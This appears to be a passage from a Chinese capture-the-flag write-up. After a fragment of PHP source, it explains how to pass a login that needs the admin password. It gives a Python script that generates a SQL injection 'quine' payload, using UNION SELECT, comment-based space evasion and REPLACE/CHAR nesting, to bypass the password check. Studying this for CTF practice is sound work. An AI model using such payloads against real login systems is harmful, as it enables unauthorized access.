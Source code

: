 ```php
  show_source(__FILE__);
  die;
}
?>
```

首先审计代码，我们需要username=admin，password=数据库中的password相同

quine可以返回一个自身的sql查询。

参考链接：https://www.shysecurity.com/post/20140705-SQLi-Quine

脚本

```python
def quine(data, debug=True):
    if debug: print(data)
    data = data.replace('@@',"REPLACE(REPLACE(@@,CHAR(34),CHAR(39)),CHAR(64),@@)")
    blob = data.replace('@@','"@"').replace("'",'"')
    data = data.replace('@@',"'"+blob+"'")
    if debug: print(data)
    return data

result = quine("'UNION/**/SELECT/**/@@/**/AS/**/atao#")
```

运行一下，POST传参就可以得到flag。
